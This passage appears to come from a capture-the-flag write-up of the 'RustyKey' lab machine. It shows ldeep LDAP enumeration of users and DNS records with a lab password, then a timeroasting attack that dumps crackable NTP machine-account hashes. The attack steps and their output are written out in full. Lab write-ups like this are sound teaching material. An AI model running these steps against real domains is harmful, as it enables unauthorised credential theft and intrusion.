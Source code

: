 I finally discover ldeep at this point. It's now a staple in my windows enumeration.

```sh
 ldeep ldap -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -s ldap://rustykey.htb -t simple users all
backupadmin
nn.marcos
ee.reed
dd.ali
gg.anderson
bb.morgan
mm.turner
rr.parker
krbtgt
Guest
Administrator
```

```sh
 ldeep ldap -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -s ldap://rustykey.htb -t simple zone rustykey.htb
[+] Domain records:
it-computer3 A 10.10.14.81
tokusucks A 10.10.14.81
it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
foobar A 10.10.14.81
fubar A 10.10.14.81
rustykey.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
fubar.rustykey.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
ForestDnsZones AAAA dead:beef::67b:dc61:d4f4:7ec2
ForestDnsZones A 10.129.174.88
DomainDnsZones AAAA dead:beef::67b:dc61:d4f4:7ec2
DomainDnsZones A 10.129.174.88
dc AAAA dead:beef::67b:dc61:d4f4:7ec2
dc A 10.129.174.88
_msdcs NS dc.rustykey.htb
@ AAAA dead:beef::67b:dc61:d4f4:7ec2
@ NS dc.rustykey.htb
@ A 10.129.174.88
```

The first hint I got asked "Have you ever heard of timeroasting?". I had not. But boy was it easy.

By querying the NTP service we can do shenanigans to pull a list of machines and associated crackable-hashes to try to divine a password. https://github.com/SecuraBV/Timeroast


```python
!python Timeroast/timeroast.py dc.$target | tee timeroast.crack
```

    1000:$sntp-ms$06da8a02e61737db25ceced8c503fae2$1c0111e900000000000a05e54c4f434cec15da3e98118cf0e1b8428bffbfcd0aec15e2053be884b9ec15e2053be8a499
    1103:$sntp-ms$22c202ddc989a82b8fff75b90096ec37$1c0111e900000000000a05e64c4f434cec15da3e981719f7e1b8428bffbfcd0aec15e205fbeddc11ec15e205fbee4415
    1104:$sntp-ms$99e22d6053eced4accff6e0412341e3e$1c0111e900000000000a05e64c4f434cec15da3e981b1cbbe1b8428bffbfcd0aec15e205fbf1f7ffec15e205fbf23e76
    1105:$sntp-ms$a1f639dfbd90bc41e40e2ce1356c33c7$1c0111e900000000000a05e64c4f434cec15da3e942c73fce1b8428bffbfcd0aec15e205fc1be60fec15e205fc1c25d0
    1106:$sntp-ms$7cd4c4fdd2bddf96a1978f890b576c46$1c0111e900000000000a05e64c4f434cec15da3e94480e8ce1b8428bffbfcd0aec15e205fc37824dec15e205fc37bd05
    1107:$sntp-ms$84fa554ca1bc1a88db498461af574fa2$1c0111e900000000000a05e64c4f434cec15da3e9473f3ede1b8428bffbfcd0aec15e205fc634620ec15e205fc63a5c1
    1118:$sntp-ms$72bd98164427c17512914d74d59d4325$1c0111e900000000000a05e64c4f434cec15da3e949043afe1b8428bffbfcd0aec15e2061487584eec15e20614906a45
    1119:$sntp-ms$b7231e4d8493fcd9d83eefe403ba25c9$1c0111e900000000000a05e64c4f434cec15da3e974fe296e1b8428bffbfcd0aec15e206174fa2d5ec15e206175005d1